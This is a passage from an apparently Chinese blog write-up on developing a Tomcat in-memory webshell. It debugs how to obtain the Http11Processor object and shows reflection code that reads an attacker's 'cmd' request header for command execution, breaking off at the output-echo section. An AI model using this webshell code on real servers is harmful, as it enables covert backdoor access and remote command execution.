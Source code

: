 ![image-20230214110533503](https://laughing-markdown-pics.oss-cn-shenzhen.aliyuncs.com/image-20230214110533503.png)

```java
return (Http11Processor) new Object(); //报错java.lang.Object cannot be cast to org.apache.coyote.http11.Http11Processor
return new Http11Processor(8192,true,false,null,8192,null, 8192,2097152,null,false);// 修改后的return
```

### 问题2

*内存马有大概率无法命令执行*

这个问题其实我有预料到，经过检查，猜测是获取对象上面出了问题，所以首先检查 `Http11Processor` 对象获取的方法。

一查就看到，有时候会有一个 AJP 的 `accept` 在前面，这样自然就无法获取到想要的那个 `Http11Processor` 对象了，后面的参数传入和回显传出也会受影响。

![image-20230214142749881](https://laughing-markdown-pics.oss-cn-shenzhen.aliyuncs.com/image-20230214142749881.png)

```java
if (thread.getName().contains("Acceptor")) {
if (thread.getName().contains("Acceptor") && thread.getName().contains("http")) {
```

# 传入参数

在调试的时候就看到了传入相关的对象了

![image-20230214173400655](https://laughing-markdown-pics.oss-cn-shenzhen.aliyuncs.com/image-20230214173400655.png)

`Http11Processor` 对象我们刚刚已经获取过了，代码如下

```java
public String getRequest() {
    String cmd = "";
    Http11Processor http11Processor = getHttp11Processor();
    Object[] headers = (Object[]) getField(getField(getField(http11Processor,"request"),"headers"),"headers");
    for (Object mimeHeaderField : headers){
        try {
            if (getField(mimeHeaderField,"nameB").toString().equals("cmd")){
                cmd = getField(mimeHeaderField,"valueB").toString();
                return cmd;
            }
        }catch (Exception e){
            continue;
        }
    }
    return cmd;
}
```

# 回显

